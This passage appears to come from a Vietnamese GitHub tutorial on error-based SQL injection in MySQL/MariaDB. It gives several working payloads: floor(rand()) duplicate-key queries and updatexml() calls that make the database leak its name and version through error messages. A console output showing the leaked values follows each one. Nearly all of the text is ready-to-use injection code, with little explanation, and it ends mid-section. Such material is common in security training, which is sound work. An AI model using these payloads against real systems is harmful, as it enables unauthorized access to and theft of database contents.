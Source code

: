 ### 9. Mysql Error Based

- Đây là kỹ thuật khiến *mysql* sinh lỗi và nhả ra thứ ta mong muốn

- Lấy thông tin *database*

  - Payload

    ```mysql
    select * from menu where id = '(select 1 and row(1,1)>(select count(*),concat(CONCAT(DATABASE()),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(DATABASE()),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+''
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = '(select 1 and row(1,1)>(select count(*),concat(CONCAT(DATABASE()),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(DATABASE()),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'';
    ERROR 1062 (23000): Duplicate entry 'xssuser:1' for key 'group_key'
    ```

- Lấy thông tin của *version*

  - Payload:

    ```mysql
    select * from menu where id = '(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'';
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = '(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'';
    ERROR 1062 (23000): Duplicate entry '10.1.41-MariaDB-0ubuntu0.18.04.1:1' for key 'group_key'
    ```

- Sử dụng *UpdateXML function* để lấy thông tin, sau đây là 1 vài *payload* để *dump data*

  - Payload 1:

    ```mysql
    select * from menu where id = 1 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null);
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null);
    ERROR 1105 (HY000): XPATH syntax error: '~10.1.41-MariaDB-0ubuntu0.18.04.'
    ```

  - Lấy ra thông tin của *version*
